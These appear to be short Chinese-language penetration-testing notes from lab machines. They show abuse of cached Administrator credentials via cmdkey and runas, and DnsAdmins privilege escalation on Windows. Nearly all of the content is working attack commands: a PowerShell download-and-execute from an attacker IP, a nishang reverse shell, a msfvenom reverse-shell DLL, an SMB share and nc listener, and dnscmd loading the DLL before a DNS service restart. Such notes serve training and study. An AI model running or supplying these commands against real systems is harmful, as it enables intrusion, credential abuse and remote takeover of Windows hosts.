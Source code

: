 
### `cmdkey /list` 显示缓存凭据
```
C:\Users\security>cmdkey /list 

Currently stored credentials: 

Target: Domain:interactive=ACCESS\Administrator 
Type: Domain Password 
User: ACCESS\Administrator
```

修改 nishang 的 `Invoke-PowerShellTcp.ps1`
```bash
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.11 -Port 2233
```

```bash
runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.16.21/shell.ps1')"
```

反弹 shell


### `DnsAdmins` Group PrivEsc
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.21 LPORT=2233 -f dll -o rev.dll
python3 /usr/share/doc/python3-impacket/examples/smbserver.py share . -smb2support
rlwrap nc -lvvnp 2233
```

```powershell
dnscmd.exe /config /serverlevelplugindll \\10.10.16.21\share\rev.dll
sc.exe \\resolute stop dns
sc.exe \\resolute start dns
```